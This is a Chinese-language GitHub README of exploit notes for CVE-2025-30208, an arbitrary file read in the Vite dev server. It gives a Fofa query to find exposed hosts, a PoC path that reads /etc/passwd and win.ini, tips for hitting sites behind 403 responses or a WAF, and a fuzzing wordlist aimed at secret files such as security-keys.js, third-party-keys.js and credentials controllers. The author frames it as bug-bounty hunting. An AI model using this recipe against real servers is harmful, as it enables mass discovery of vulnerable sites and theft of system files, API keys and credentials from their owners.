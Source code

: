 ### 一些自己遇到的bypass场景用的脚本poc和一些挖src或者攻防的小思路，后续会慢慢搜集，感兴趣的可以关注，欢迎交流挖洞的技巧。同时，我会把最新更新的内容都放在README这里

## CVE-2025-30208
通过url去拼接下面路径来任意文件读取

Fofa测绘语句:
```
body="/@vite/client"
```
poc
```
/etc/passwd?raw"  # Linux系统文件

"/Windows/win.ini?raw" #windows文件
```
## poc就是这么简单，市面上能检索到的也挺多，不过这里添加进来也是有个思路所以记录一下

搜集完后去扫基本已经没剩几个了，很多都重复，不过有个其他的思路。讲一个小技巧，现在基本上常规的直接拼接路径已经刷烂了，不过我们可以把注意力放到一些403和有waf的网站
![a3bb815b6baee72ad140b6c829163a8](https://github.com/user-attachments/assets/bfd9424e-933d-43a1-bc16-c2f1038b47f2)

我们通过拼接这个路径去看有没有相关的内容，然后拼接一些vue开发最为熟悉的一些路径,下面为一些举例，具体还是需要看网站的线索来分析，通过一步步的扫雷式来进行扩散最后完成挖掘，这样我们就可以捡漏拿站交src了
![image](https://github.com/user-attachments/assets/a9e41bda-3973-4230-81e1-dfc6a1161890)

也是成功拼接读取，这里就贴个厚码证明可行性，再利用过程就不多说了，有这个思路大部分人就懂了，下面如今只是举例，真实的自己去进一步猜测，可以根据同一资产的类似网页来判断已经vue常用的框架结构探测，这里还有一点**读取的目录是否存在是可以探测的**,所以fuzz是一个好
办法。
以上思路仅供参考~

例如

/project/frontend/src/views/home.vue

/project/frontend/src/views/about.vue

/project/frontend/src/views/products.vue

/project/frontend/src/views/cart.vue

/project/frontend/src/views/checkout.vue

/project/frontend/src/views/orders.vue

/project/frontend/src/views/contact.vue

/project/frontend/src/views/faq.vue

/project/frontend/src/views/privacyPolicy.vue

/project/frontend/src/views/termsOfUse.vue

/project/frontend/src/views/profileEdit.vue

/project/frontend/src/views/changePassword.vue

/project/frontend/src/views/maintenance.vue

/project/frontend/src/constants/api-config.js

/project/frontend/src/constants/security-keys.js

服务类

/project/frontend/src/services/auth-handler.js

/project/frontend/src/services/cloud-service.js

/project/frontend/src/services/payment.js

页面组件
/project/frontend/src/views/admin/settings.vue

/project/frontend/src/views/admin/dashboard.vue

/project/frontend/src/views/admin/users.vue

/project/frontend/src/views/admin/orders.vue

/project/frontend/src/views/payment/confirm.vue

/project/frontend/src/views/user/security.vue

/project/frontend/src/views/user/profile.vue

/project/frontend/src/views/user/orders.vue

# 路由与状态

/project/frontend/src/router/private-routes.js

/project/frontend/src/router/admin-routes.js

/project/frontend/src/store/modules/secure-store.js

/project/frontend/src/store/modules/admin-store.js

# 后端路径
## 配置类

/project/backend/src/config/private-settings.js

/project/backend/src/config/third-party-keys.js

/project/backend/src/config/secret-manager.js

## 工具类

/project/backend/src/utils/crypto-helpers.js

/project/backend/src/utils/secure-logger.js

/project/backend/src/utils/jwt-generator.js

## 服务类
/project/backend/src/services/secure-auth.js

/project/backend/src/services/cloud-storage.js

/project/backend/src/services/payment-gateway.js
## 控制器
/project/backend/src/controllers/admin/security.js
/project/backend/src/controllers/admin/dashboard.js
/project/backend/src/controllers/admin/users.js
/project/backend/src/controllers/admin/orders.js
/project/backend/src/controllers/payment/process.js
/project/backend/src/controllers/user/credentials.js
/project/backend/src/controllers/user/profile.js
/project/backend/src/controllers/user/orders.js
